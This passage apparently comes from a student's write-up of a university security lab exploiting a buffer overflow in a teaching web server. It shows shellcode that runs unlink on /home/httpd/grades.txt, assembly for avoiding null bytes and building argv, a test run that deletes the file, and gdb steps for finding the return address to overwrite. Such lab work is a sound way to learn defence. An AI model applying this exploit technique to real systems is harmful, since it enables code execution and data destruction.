     We change the STRING as "/usr/bin/unlinkA/home/httpd/grades.txt". Note that here we do not use '\0' to separate two strings, for that '\0' will be intepreted as the termination character during HTTP parsing, which is not what we expect. So that we use 'A' to mark the separation, and use the following code to set it to  '\0'

    ```asm
    xorl    %eax,%eax               
    movb    %al,(SECOND_ARG-1)(%esi)
    ```

    Another thing is that different from the initial shell code program, here in the 'execve' arguments, the 'argv' argument has two needed values, i.e., argv[0] and argv[1], representing "/usr/bin/unlink" and "/home/httpd/grades.txt" respectively. So that to set the argv pointer, we need to set the pointers to both argv[0] and argv[1], using the following code

    ```c
    movl %esi,(ARGV)(%esi)      /* set the argv[0] pointer to the "/usr/bin/unlink" string */
    leal (SECOND_ARG)(%esi),%ebx    /* set the %ebx to the pointer to the string "/home/httpd/grades.txt" in STRING */
    movl %ebx,(ARGV+4)(%esi)    /* set the argv[1] pointer to the "/home/httpd/grades.txt" */
    ...
    movl %eax, (ENVP)(%esi)     /* set the argv[2] pointer to NULL as well as set up the null envp */
    ```

    Note that here, the assumption is that the machine is 32-bit (4 byte), such that ENVP=ARGV+8

    Now, we have obtained the desired shell code. Let us run some test on it:

    ```bash
    httpd@vm-6858:~/lab$ ls /home/httpd/
    lab
    httpd@vm-6858:~/lab$ touch /home/httpd/grades.txt
    httpd@vm-6858:~/lab$ ls /home/httpd/
    grades.txt  lab
    httpd@vm-6858:~/lab$ make
    make: Nothing to be done for 'all'
    httpd@vm-6858:~/lab$ ./run-shellcode shellcode.bin 
    httpd@vm-6858:~/lab$ ls /home/httpd/
    lab
    ```

    Alah! Success! And this binary code does not contain either '\0' or '\n'.

3. find the address of the tainted return value

    From step 1., we have already obtained the address of 'value', which is 0xbfffdbf4. 

    Thus, the next step we do is to obtain the address of the return value of the function 'http_request_headers', which is what we want to overwrite and is on the stack.

    Such that we use the following steps:

    * set a break point at the line 44 of [zookfs.c](lab1/zookfs.c)
    * layout the assembly code and find the return address of 'http_request_headers' function
    * set a break point at 'http_request_headers'
    * set a break point at the 'return 0' instruction of 'http_request_headers' function 
    * the value in %esp when reaching the return call is the address of where return value is stored.
